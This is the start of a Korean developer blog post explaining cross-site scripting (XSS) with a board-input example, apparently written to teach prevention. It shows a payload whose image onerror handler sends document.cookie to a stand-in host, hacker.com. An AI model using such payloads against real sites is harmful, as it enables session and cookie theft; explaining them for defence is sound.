 ```yaml
---
title: "사이트 간 스크립팅"
date: "2019-02-21"
categories:
- DevLog
excerpt: |
  사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.
feature_text: |
  ## 사이트 간 스크립팅(cross-site scripting)
  사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.
feature_image: "https://images.unsplash.com/photo-1511389026070-a14ae610a1be?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1350&q=80"
image: "https://images.unsplash.com/photo-1511389026070-a14ae610a1be?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1350&q=80"
---
```


## 목차
- [개요](#1)
- [예제](#2)
- [예방 방법](#3)
- [React에서의 XSS](#4)
- [결론](#5)
- [참고문헌 및 출처](#6)

<p id="1">오늘은 사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.</p>
<br />
## 개요
사이트 간 스크립팅(Cross-site Scripting) 또는 XSS 공격은 웹 어플리케이션 **관리자가 아닌 사용자가 웹 어플리케이션에 악성 스크립트를 삽입해 다른 사용자의 정보 등을 탈취하는 공격을 의미**한다. 주로 웹 어플리케이션의 사용자로부터 입력 받은 값을 충분히 검사하지 않고 사용할 경우 발생한다.

해커가 **사용자의 정보(쿠키, 세션 등)를 탈취하거나, 자동으로 비정상적인 기능을 수행하게 할 수 있다.** 주로 다른 웹사이트와 정보를 교환하는 식으로 작동하기에 사이트 간 스크립팅이라고 불린다.

주로 게시판 등 사용자에 허용된 인풋을 활용하여 악성 스크립트를 포스팅 하는 방식으로 이루어진다.

XSS는 손쉬운 공격방법으로 매우 광범위하게 이용되어 정보 자산을 보호하는 데 가장 큰 위험 중 하나라고 할 수 있다.
<br id="2"/><br />
## 예제
다음과 같은 게시판이 있다고 하자.<br />

<img alt="board text inputs" src="https://github.com/ChaeWonKong/chaewonkong.github.io/blob/master/assets/post_img/harusijak.png?raw=true" max-width="80px"/>

<br />
만약 악의적인 사용자가 textarea에 아래와 같은 코드를 삽입한다면 어떻게 될까?
(보기 편하도록 일부러 줄바꿈을 하였다)
```html
<p>Hello! I am a hacker.</p>
<img src="#" width="0" height="0"
onerror="this.src='http://hacker.com/gatherCookie.php?cookie=
'+encodeURIComponent(document.cookie);" />
```
